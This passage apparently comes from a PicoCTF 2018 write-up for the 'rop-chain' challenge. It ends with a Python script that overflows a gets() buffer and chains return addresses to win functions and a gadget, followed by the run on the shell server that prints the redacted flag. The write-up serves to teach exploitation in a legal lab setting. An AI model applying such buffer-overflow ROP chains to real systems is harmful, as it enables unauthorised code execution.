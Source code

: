 Now, let's write some code to fill in our `buf` for us. It'll be 28 bytes, followed by the stack layout shown above, where all the 32-bit values will be written in little-endian format.

```python
#!/usr/bin/env python
# works with python2 or python3
import struct, os
os.write(1, b"U"*28 + struct.pack("<7L",
                      0x080485cb, # win_function1
                      0x080485d8, # win_function2
                      0x080485d6, # gadget
                      0xBAAAAAAD, # win_function2 arg
                      0x0804862b, # flag
                      0x55555555, # return add for flag (DNC)
                      0xDEADBAAD  # flag arg
                      ) + b"\n") # don't forget to add a newline for gets()
```

Finally, let's try it out by running the problem in `/problems/rop-chain_2_d25a17cfdcfdaa45844798dd74d03a47` on the shell server:

```
$ cd /problems/rop-chain_2_d25a17cfdcfdaa45844798dd74d03a47
$ python -c 'import struct,os; os.write(1, b"U"*28 + struct.pack("<7L", 0x080485cb, 0x080485d8, 0x080485d6, 0xBAAAAAAD, 0x0804862b, 0x55555555, 0xDEADBAAD) + b"\n")' | ./rop
Enter your input> picoCTF{===REDACTED===}
Segmentation fault (core dumped)
```
{:.contains-term}

Wow, that was more work than I thought - Good job getting all the way through it! As a quick note, if you wanted to avoid the gadget, you *could* return directly into `flag`, and have `0xDEADBAAD` immediately after `0xBAAAAAAD` - But it **only** works in this specific instance because we don't care about the return address of `flag` and there is exactly 4 extraneous bytes on the stack.

Head back to the [PicoCTF 2018 BinExp Guide]({% link _reference/hacking-101/picoctf-2018-binary-exploits.md %}) to continue with the next challenge.